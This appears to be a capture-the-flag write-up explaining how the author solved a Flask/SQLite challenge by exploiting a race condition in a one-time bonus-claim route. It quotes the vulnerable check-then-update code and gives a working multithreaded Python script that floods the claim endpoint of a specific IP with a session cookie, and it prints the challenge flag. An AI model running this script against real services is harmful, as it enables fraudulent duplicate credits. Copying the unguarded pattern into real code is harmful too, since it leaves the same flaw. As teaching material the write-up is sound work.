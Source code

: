 ![image](https://github.com/user-attachments/assets/aed90ea8-d1de-4a71-a972-cdef13c48e7c)

## How the app works:
![image](https://github.com/user-attachments/assets/208f501c-21f0-45d4-ac6f-cd03939f0cf3) ![image](https://github.com/user-attachments/assets/b00a16b4-bfd9-4f8e-9f33-a536c6309b4e)

```js
/register - New user with 1000 balance. 
/claim - +1000 bonus (1 per user). 
/buy_flag - Need 3000 balance for flag
```

## What Actually Happened (My Mistake Story):
Okay so at first  I thought this challenge was something about token or session attack. 
I spent like 5-10 minutes trying to look at the session cookie  maybe it’s something like JWT, or weak secret key, or something I could decode. 
But turns out... 
```
Flask uses os.urandom(16) for app.secret_key
```
which is random and basically impossible to guess unless you control the server. 
My mistake la G I should’ve just read the backend code properly from the start.

## What I Found After Reading the Backend
After checking the source code  I saw something interesting in the /claim route.
```js
cur = db.execute('SELECT claimed FROM redemptions WHERE username=?', (username,))
row = cur.fetchone()
if row and row['claimed']:
    flash("You have already claimed your daily bonus!", "danger")
    return redirect(url_for('dashboard'))

db.execute('INSERT OR REPLACE INTO redemptions (username, claimed) VALUES (?, 1)', (username,))
db.execute('UPDATE users SET balance = balance + 1000 WHERE username=?', (username,))
db.commit()
```
At first glance, I was like looks okay…
But if you search online or check basic references about Race Condition on database 
especially for Flask + SQLite  you’ll find that this pattern can be risky if the database doesn’t have locking mechanism or transaction isolation.
Reference example: https://portswigger.net/web-security/race-conditions
Here’s another way to do this via burp: https://medium.com/@mahakjaiswani888/race-condition-vulnerability-f92de47aa55c

## Why This Can Be Exploited?
Since the code checks if claimed=1 first  then only after that it updates the balance and sets claimed=1
there is a small window where I can spam multiple requests fast enough before the server saves claimed=1 to the database.
SQLite doesn’t handle this by default unless you use special locking or transaction isolation which this code doesn’t have.

## Exploit Steps
![image](https://github.com/user-attachments/assets/9a8a59c0-af40-4ced-ae57-3609dd62ba26)

•	Register new account - get 1000 balance.

•	Don’t claim the daily bonus 

•	Spam /claim fast using Python multithreading. (Again, we need UNCOLLECTED DAILY BONUS jwt-token for this!)

![image](https://github.com/user-attachments/assets/548cf9f5-cbdf-4f72-83bd-3e253a1fb87e)
Here’s the cracker.py :
```python
import threading
import requests

# Replace these with your target URL and session cookie
BASE_URL = "http://159.69.219.192:7859"
SESSION_COOKIE = "UNCLAIMED DAILY USER TOKEN"

def claim_bonus():
    headers = {"Cookie": f"session={SESSION_COOKIE}"}
    response = requests.post(f"{BASE_URL}/claim", headers=headers)
    print(response.text)

# Create multiple threads to exploit the race condition
threads = []
for _ in range(10):  # Adjust the number of threads as needed
    thread = threading.Thread(target=claim_bonus)
    threads.append(thread)
    thread.start()

# Wait for all threads to complete
for thread in threads:
    thread.join()

print("Exploit completed. Check your balance on /dashboard.")
```
![image](https://github.com/user-attachments/assets/c81b0931-82d7-4a63-8d45-f8c946108e78)

•	Simply refresh our web and finally, redeem flag at /buy_flag.

![image](https://github.com/user-attachments/assets/e8a40c47-8adc-4b48-b733-e158c6f8de4c) ![image](https://github.com/user-attachments/assets/bf280620-443a-4ca8-b9aa-e4cb008bedd7)

•	And here’s the flag!! 
UMCS{th3_s0lut10n_1s_pr3tty_str41ghtf0rw4rd_too!}

